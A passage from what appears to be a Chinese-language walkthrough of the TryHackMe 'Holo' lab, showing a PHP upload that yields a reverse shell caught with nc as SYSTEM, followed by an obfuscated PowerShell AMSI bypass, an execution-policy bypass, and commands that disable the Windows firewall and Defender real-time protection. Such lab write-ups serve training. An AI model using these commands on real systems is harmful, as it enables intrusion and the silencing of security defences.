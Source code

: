 ```
在```images```这个文件夹可以访问到我们上传到php文件

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659593622049.jpg)


现在上传一个win版本的rev.php，拿到一个shell
```
┌──(root💀kali)-[~/tryhackme/holo]
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.50.111.108] from (UNKNOWN) [10.200.114.31] 49896
SOCKET: Shell has connected! PID: 528
Microsoft Windows [Version 10.0.17763.1518]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\web\htdocs\images>whoami
nt authority\system

C:\web\htdocs\images>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : holo.live
   Link-local IPv6 Address . . . . . : fe80::81b0:9f04:18cc:b3a0%6
   IPv4 Address. . . . . . . . . . . : 10.200.114.31
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.200.114.1

C:\web\htdocs\images>

```

绕过PS执行策略以及AMSI
```
C:\web\htdocs\images>powershell -ep bypass
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\web\htdocs\images> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
PS C:\web\htdocs\images> 
```

关闭防火墙和实时防护
```
PS C:\web\htdocs\images> NetSh Advfirewall set allprofiles state off
Ok.

PS C:\web\htdocs\images> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 'ProtectionManagement'.
PS C:\web\htdocs\images> 
